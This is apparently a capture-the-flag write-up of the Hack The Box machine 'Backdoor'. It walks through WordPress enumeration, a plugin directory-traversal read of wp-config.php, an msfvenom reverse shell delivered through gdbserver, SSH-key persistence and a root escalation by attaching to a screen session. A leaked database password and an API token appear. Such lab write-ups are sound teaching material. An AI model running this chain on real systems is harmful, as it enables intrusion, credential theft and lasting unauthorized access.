

# Backdoor

# Nmap

We’ve started, as always, with full nmap scan.

```bash
─[us-dedivip-1]─[10.10.14.162]─[th3g3ntl3m4n@htb]─[~/htb/Backdoor]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.125

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Let’s perform a detailed versioned nmap scan only on open ports.

```bash
─[us-dedivip-1]─[10.10.14.162]─[th3g3ntl3m4n@htb]─[~/htb/Backdoor]                                                                                                                            
└──╼ [★]$ sudo nmap -vv -A -Pn -p 22,80 -oA nmap/backdoor 10.10.11.125

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDqz2EAb2SBSzEIxcu+9dzgUZzDJGdCFWjwuxjhwtpq3sGiUQ1jgwf7h5BE+AlYhSX0oqoOLPKA/QHLxvJ9sYz0ijBL7aEJU8tYHchYMCMu0e8a71p3UGirTjn2tBVe3RSCo/XRQOM/ztrBzlqlKHcq
MpttqJHphVA0/1dP7uoLCJlAOOWnW0K311DXkxfOiKRc2izbgfgimMDR4T1C17/oh9355TBgGGg2F7AooUpdtsahsiFItCRkvVB1G7DQiGqRTWsFaKBkHPVMQFaLEm5DK9H7PRwE+UYCah/Wp95NkwWj3u3H93p4V2y0Y6kdjF/L+BRmB44XZXm2Vu7BN0
ouuT1SP3zu8YUe3FHshFIml7Ac/8zL1twLpnQ9Hv8KXnNKPoHgrU+sh35cd0JbCqyPFG5yziL8smr7Q4z9/XeATKzL4bcjG87sGtZMtB8alQS7yFA6wmqyWqLFQ4rpi2S0CoslyQnighQSwNaWuBYXvOLi6AsgckJLS44L8LxU4J8=
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIuoNkiwwo7nM8ZE767bKSHJh+RbMsbItjTbVvKK4xKMfZFHzroaLEe9a2/P1D9h2M6khvPI74azqcqnI8SUJAk=
|   256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB7eoJSCw4DyNNaFftGoFcX4Ttpwf+RPo0ydNk7yfqca
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.
17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
```

On port 80, we’ve a WordPress site running. Let’s further and enumerate it.

# Enumeration

## Webserver

We already know the WordPress running on host is the version 5.8.1. Let’s run a wpscan to enumerate it

```bash
┌──(th3g3ntl3m4n@htb)-[~/htb/backdoor]
└─$ wpscan --api-token przpfdBYKPiu7BQ9cW30s2OpufxvQ4ygX06iHTsrYTk --url http://10.10.11.125 --enumerate vp --plugins-detection aggressive -o wpscan_out -f cli

[+] URL: http://10.10.11.125/ [10.10.11.125]
[+] Started: Fri Jan  7 16:08:59 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.11.125/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.11.125/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.11.125/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.11.125/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8.1 identified (Insecure, released on 2021-09-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.11.125/index.php/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |  - http://10.10.11.125/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |
 | [!] 5 vulnerabilities identified:
 |
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 |     Fixed in: 5.8.2
 |     References:
 |      - https://wpscan.com/vulnerability/cc23344a-5c91-414a-91e3-c46db614da8d
 |      - https://wordpress.org/news/2021/11/wordpress-5-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/ticket/54207
 |
 | [!] Title: WordPress < 5.8.3 - SQL Injection via WP_Query
 |     Fixed in: 5.8.3
 |     References:
 |      - https://wpscan.com/vulnerability/7f768bcf-ed33-4b22-b432-d1e7f95c1317
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21661
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84
 |      - https://hackerone.com/reports/1378209
 |
 | [!] Title: WordPress < 5.8.3 - Author+ Stored XSS via Post Slugs
 |     Fixed in: 5.8.3
 |     References:
 |      - https://wpscan.com/vulnerability/dc6f04c2-7bf2-4a07-92b5-dd197e4d94c8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21662
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-699q-3hj9-889w
 |      - https://hackerone.com/reports/425342
 |
 | [!] Title: WordPress 4.1-5.8.2 - SQL Injection via WP_Meta_Query
 |     Fixed in: 5.8.3
 |     References:
 |      - https://wpscan.com/vulnerability/24462ac4-7959-4575-97aa-a6dcceeae722
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21664
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jp3p-gw8h-6x86
 |
 | [!] Title: WordPress < 5.8.3 - Super Admin Object Injection in Multisites
 |     Fixed in: 5.8.3
 |     References:
 |      - https://wpscan.com/vulnerability/008c21ab-3d7e-4d97-b6c3-db9d83f390a7
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21663
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jmmq-m8p8-332h
 |      - https://hackerone.com/reports/541469

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.11.125/wp-content/themes/twentyseventeen/
 | Latest Version: 2.8 (up to date)
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://10.10.11.125/wp-content/themes/twentyseventeen/readme.txt
 | Style URL: http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.8'

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://10.10.11.125/wp-content/plugins/akismet/
 | Latest Version: 4.2.1
 | Last Updated: 2021-10-01T18:28:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.11.125/wp-content/plugins/akismet/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357
 |      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
 |      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
 |
 | The version could not be determined.

[+] ebook-download
 | Location: http://10.10.11.125/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://10.10.11.125/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.11.125/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.11.125/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.11.125/wp-content/plugins/ebook-download/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 4
 | Requests Remaining: 14

[+] Finished: Fri Jan  7 16:17:35 2022
[+] Requests Done: 3399
[+] Cached Requests: 9
[+] Data Sent: 923.767 KB
[+] Data Received: 850.695 KB
[+] Memory used: 215.363 MB
[+] Elapsed time: 00:08:35
```

Wpscan shows us a ebook-plugin with a Path Traversal vulnerability.



Acessing this URL, we got the page.


Doing some researches, we have got the following exploit:

| EXPLOIT |
| --- |
| [https://www.exploit-db.com/exploits/39575](https://www.exploit-db.com/exploits/39575) |

Let’s try to apply the Proof of Concept (PoC) that was mentioned in the exploit.

```bash
[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```


Checking the file, we’ve got:

```bash
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

After some research and tried every possible LFI techniques, we tried enumerate the `/proc/xxx/cmdline` files.

After a lot of search, we’ve found a line interesting

```bash
/proc/823/cmdline/proc/823/cmdline/proc/823/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
```

It seems running a gdbserver on port 1337 as user.

Let’s create a reverse shell with msfvenom.

```bash
─[us-dedivip-1]─[10.10.14.162]─[th3g3ntl3m4n@htb]─[~/htb/Backdoor]                                                                                                                            
└──╼ [★]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.162 LPORT=443 -f elf -o jpfdevs
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: jpfdevs
```

Now, let’s execute GDB and try to execute our payload remotely.

```bash
─[us-dedivip-1]─[10.10.14.162]─[th3g3ntl3m4n@htb]─[~/htb/Backdoor]                                                                                                                            
└──╼ [★]$ gdb                                                                                                                                                                                 
GNU gdb (Debian 10.1-1.7) 10.1.90.20210103-git
(gdb) target extended-remote 10.10.11.125:1337                                                                                                                                                
Remote debugging using 10.10.11.125:1337                                                                                                                                                      
Reading /usr/bin/true from remote target...                                                                                                                                                   
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.                                                                                   
Reading /usr/bin/true from remote target...                                                                                                                                                   
Reading symbols from target:/usr/bin/true...
...

0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
(gdb) remote put jpfdevs jpfdevs
Successfully sent file "jpfdevs".
(gdb) set remote exec-file /home/user/jpfdevs
(gdb) show remote exec-file
/home/user/jpfdevs
(gdb) b main
(gdb) run
```

And checking back our listener.

```bash
─[us-dedivip-1]─[10.10.14.162]─[th3g3ntl3m4n@htb]─[~/htb/Backdoor]
└──╼ [★]$ sudo nc -vnlp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.125.
Ncat: Connection from 10.10.11.125:41722.
id
uid=1000(user) gid=1000(user) groups=1000(user)
```

Now, let’s escalate our privilege. But first, let’s improve our shell. Let’s add our SSH public key on authorized_keys file from user.

```bash
user@Backdoor:/home/user$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDA1x9wN8PmTl+2MkmGsVFR2Zo5lS/DuX5pv46SUM93vDV4VX348OI0eOwF1LgrVmdqaktsbSDtGHMdyeJvQdEKg9gaO3AfnLEsloGrpjQoTNn3lN101I3jD/wN5D3vrkN9lXjAQWxOeVGoj34xwiOBxfjDdNDvjfYjDl/0SeKVProD6B5VWM5D71dfeAS/oJfMxZLcoGpYWggpCyqs0z/jDAQr2fK2OUaFI6IjHfYkqvtubE9GrumbUJn31DFoNUIJpvttQEExqF+Dnka7ruc9cFATf+IItwZ6H7fzi3rSHs2xR6fso6wGTsQQHQ9STYSuVLwRo1Gp4X7DY8paG7UI/GwpOl47d5g5lJX9+ZwzOJYgju1iX6OEglH4N4A1f04bi1TEDlJJAd5C13tKZEdDG79PLB7up3Bj3CKB8tFVdoTT36e/aNvNtPVKZrZFTWSqMr37eBQj2fvOr5bWzugKhmbPOVs5w3f3sJOPR59C5GuiETkDag3NyrEw/sbjLB0=' >> .ssh/authorized_keys
```

Now log into ssh

```bash
─[us-dedivip-1]─[10.10.14.162]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ ssh user@backdoor.htb
The authenticity of host 'backdoor.htb (10.10.11.125)' can't be established.
ECDSA key fingerprint is SHA256:iP5gKZmGCL3btYjGjjl2DeNzEcQxW+yooqbQVFN4XuU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'backdoor.htb,10.10.11.125' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 08 Jan 2022 05:01:02 PM UTC

  System load:  0.04              Processes:             244
  Usage of /:   54.5% of 6.74GB   Users logged in:       0
  Memory usage: 50%               IPv4 address for eth0: 10.10.11.125
  Swap usage:   0%

30 updates can be applied immediately.
9 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jan  8 15:53:16 2022 from 10.10.14.77
```

Now, let’s verify if there is some SUID file on system.

```bash
user@Backdoor:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

The `/usr/bin/screen` calls our attention. Searching on GTFOBins, we’ve got a path to root.

Checking the process running the screen command, we’ve got.

```bash
user@Backdoor:~$ ps -ef | grep -i screen
root         824     795  0 00:55 ?        00:00:24 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
root      214297       1  0 15:56 ?        00:00:00 SCREEN -dmS root
user      228210  227707  0 17:04 pts/4    00:00:00 grep --color=auto -i screen
```

After some try and errors, we’ve perform the following command.

```bash
root@Backdoor:~# screen -x root/root
root@Backdoor:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Let’s get permanent access to user root via ssh.

```bash
root@Backdoor:~# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDA1x9wN8PmTl+2MkmGsVFR2Zo5lS/DuX5pv46SUM93vDV4VX348OI0eOwF1LgrVmdqaktsbSDtGHMdyeJvQdEKg9gaO3AfnLEsloGrpjQoTNn3lN101I3jD/wN5D3vrkN9lXjAQWxOeVGoj34xwiOBxfjDdNDvjfYjDl/0SeKVProD6B5VWM5D71dfeAS/oJfMxZLcoGpYWggpCyqs0z/jDAQr2fK2OUaFI6IjHfYkqvtubE9GrumbUJn31DFoNUIJpvttQEExqF+Dnka7ruc9cFATf+IItwZ6H7fzi3rSHs2xR6fso6wGTsQQHQ9STYSuVLwRo1Gp4X7DY8paG7UI/GwpOl47d5g5lJX9+ZwzOJYgju1iX6OEglH4N4A1f04bi1TEDlJJAd5C13tKZEdDG79PLB7up3Bj3CKB8tFVdoTT36e/aNvNtPVKZrZFTWSqMr37eBQj2fvOr5bWzugKhmbPOVs5w3f3sJOPR59C5GuiETkDag3NyrEw/sbjLB0=' >> .ssh/authorized_keys
```

